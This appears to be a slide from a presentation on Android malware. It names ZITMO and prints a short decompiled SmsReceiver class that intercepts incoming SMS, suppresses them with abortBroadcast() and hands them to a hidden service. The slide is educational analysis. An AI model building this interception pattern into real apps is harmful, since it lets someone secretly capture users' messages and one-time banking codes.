

# 2. Malwares
Malwares present in the application, sends unauthorized SMS or makes unauthorized call
ZITMO
public class SmsReceiver extends BroadcastReceiver
{
public static final String KEY_SMS_ARRAY = "pdus";
  public static final String TAG = "SmsReceiver";
public void onReceive(ContextparamContext, Intent paramIntent)
  {
Bundle localBundle = paramIntent.getExtras();
    if ((localBundle != null) && (localBundle.containsKey("pdus")))
    {
abortBroadcast();
paramContext.startService(newIntent(paramContext, MainService.class).putExtra("pdus", localBundle));
    }
  }
}